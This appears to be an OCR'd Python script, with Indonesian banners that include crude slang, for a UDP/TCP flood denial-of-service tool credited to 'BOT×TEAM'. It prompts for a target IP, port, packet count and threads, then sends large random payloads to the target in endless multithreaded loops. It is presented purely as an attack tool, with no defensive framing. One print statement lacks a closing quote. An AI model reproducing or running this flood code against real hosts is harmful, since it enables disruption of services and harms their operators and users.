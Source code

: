 #Autor By Cyber
import random
import socket
import threading
import os

os.system("clear")
print("#-- DOOS BY BOT×TEAM --#")
print("--> KALAU MAU PAKEK GANTENG DULU KONTOL <--")
print("#-- TOOLS BY BOT×TEAM --#")
print(" •Fedika×BOT•
ip = str(input(" Masukan IP:"))
port = int(input(" Port:"))
choice = str(input(" Gas Ddos Gak ni?(y/n):"))
times = int(input(" Mau Berapa Packets?:"))
threads = int(input(" Isi Packets Threads?:"))
def run():
	data = random._urandom(20000)
	i = random.choice(("[*]","[!]","[#]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
			addr = (str(ip),int(port))
			for x in range(times):
				s.sendto(data,addr)
			print(i +" BOT!!!")
		except:
			print("[!] BOT!!!")

def run2():
	data = random._urandom(696969)
	i = random.choice(("[*]","[!]","[#]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
			s.connect((ip,port))
			s.send(data)
			for x in range(times):
				s.send(data)
			print(i +" BOT")
		except:
			s.close()
			print("[*] Server Down")

for y in range(threads):
	if choice == 'y':
		th = threading.Thread(target = run)
		th.start()
	else:
		th = threading.Thread(target = run2)
		th.start()
